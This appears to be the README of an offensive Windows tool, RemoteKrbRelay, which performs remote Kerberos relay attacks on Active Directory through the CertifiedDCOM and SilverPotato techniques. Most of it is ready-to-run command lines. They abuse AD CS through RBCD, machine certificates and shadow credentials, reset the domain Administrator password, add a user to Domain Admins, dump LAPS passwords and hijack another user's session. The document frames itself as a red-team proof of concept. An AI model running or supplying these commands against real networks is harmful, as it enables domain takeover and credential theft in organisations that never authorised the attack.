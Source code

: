 # RemoteKrbRelay

You probably know [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), but what if I told you it could be done remotely? With RemoteKrbRelay this becomes a reality.

# TL;DR

Learn more about CertifiedDCOM [here](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519). CertifiedDCOM allows you to trigger an ADCS machine account:
```shell
# CertifiedDCOM (Abuse AD CS by setting RBCD)
  .\RemoteKrbRelay.exe -rbcd -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -cn FAKEMACHINE$

# CertifiedDCOM (Abuse ADCS to get Machine cert)
   .\RemoteKrbRelay.exe -adcs -template Machine -victim adcs.root.apchi -target dc01.root.apchi -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8

# CertifiedDCOM (Abuse ADCS with ShadowCreds)
  .\RemoteKrbRelay.exe -shadowcred -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -forceshadowcred
```

There's also the [SilverPotato](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/) exploit. You can use it to abuse sessions. Including a domain administrator session on a third-party host.
```shell
# Change user password
  .\RemoteKrbRelay.exe -chp -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -chpuser Administrator -chppass Lolkekcheb123! -secure

# Add user to group
  .\RemoteKrbRelay.exe -addgroupmember -victim computer.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -group "Domain Admins" -groupuser petka

# Dump LAPS passwords
  .\RemoteKrbRelay.exe -laps -victim mssql.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

# Send LDAP Whoami request from relayed user
  .\RemoteKrbRelay.exe -ldapwhoami -victim win10.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

# Trigger authentication from another session
  .\RemoteKrbRelay.exe -ldapwhoami -victim domainadminhost.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1
```

# Details
Now, you have four folders in front of you:
- Checker
- Checkerv2.0
- Exploit
- FindAvailablePort

# TO DO LIST
- [ ] Dump GMSA
- [ ] Relay initial OXID Request authentication
- [ ] Exchange to exchange relay
- [ ] CLSID Bruteforce
- [ ] Relay with supplemental credentials

# Conclusion
The vulnerability is quite serious. Note that this is the minimum POC. You should refine it if you want to use it stably on your Red Team projects. 

# Acknowledgements
- Repos [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), with their help I was able to figure out Kerberos Relay
- [BH Asia 2024 Talk](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519)
- [Silver Potato](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/)

Thanks for not posting the POC on CertifiedDCOM and SilverPotato, I've been stoked to do them on those articles :D
